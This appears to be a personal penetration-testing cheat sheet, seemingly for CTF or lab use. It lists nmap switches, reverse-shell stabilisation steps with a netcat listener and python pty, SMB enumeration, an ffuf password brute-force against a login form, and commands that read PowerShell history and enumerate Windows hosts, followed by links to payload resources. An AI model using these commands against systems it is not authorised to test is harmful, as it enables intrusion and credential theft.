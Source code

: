 # Info gathering

## OSINT
https://crt.sh

### nmap favourite switches
Syn scan, verbose output:
```
nmap -sS -sV targetaddress
```

Aggressive scan:
```
nmap -sS -A targetaddress
```

Default scripts, version info, write normal output to file
```
nmap -sC -sV -oN /where/to/write/results targetaddress
```

All ports, normal output:
```
nmap -p- -oN /where/to/write/results targetaddress
```

### Stabilise a reverse shell

#### rlwrap
Simply start the listener in rlwrap:
```
rlwrap nc -lvnp <port>
```

#### spawn pty
For interactive shell, spawn bash from python on the target machine and set xtrerm:
```
python -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
```

Background it with `Ctrl + Z`, then switch off echo of the parent shell and foreground it again:
```
stty raw -echo; fg
```

#### Bonus: set correct shell boundaries

First get tty rows and columns from the local shell:
```
stty -a | grep -e rows -e columns
```

Then set the same values in the remote shell:
```
stty rows <number>
stty cols <number>
```

### misc

List smb shares:
```
smbclient -L -N \\\\smbserver\\
```

Connect to smb share:
```
smbclient -N \\\\smbserver\\share
```

Start simple http server in the current dir:
```
python3 -m http.server <portnumer>
```

Start netcat listener:
```
nc -lvnp <portnumber>
```

Password BF example with fuff:
```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

## Windows

Get powershell history:
```
type C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

cmd enumeration:
```
net users

systeminfo | findstr /B /C: "OS Name"/C: "OS Version"

wmic service list
```

## Bookmarks
[Reverse shell cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)\
[Crackstation](https://crackstation.net/)\
[Subdomain BF tool](https://github.com/aboul3la/Sublist3r)\
[SecLists - wordlists for all the things](https://github.com/danielmiessler/SecLists)\
[Payloads all the things - as the name suggests](https://github.com/swisskyrepo/PayloadsAllTheThings)\
[PayloadBox - as the name suggests](https://github.com/payloadbox)\
[SharpCollecion - Windows tools](https://github.com/Flangvik/SharpCollection)\
[Hacktricks book](https://book.hacktricks.xyz/)
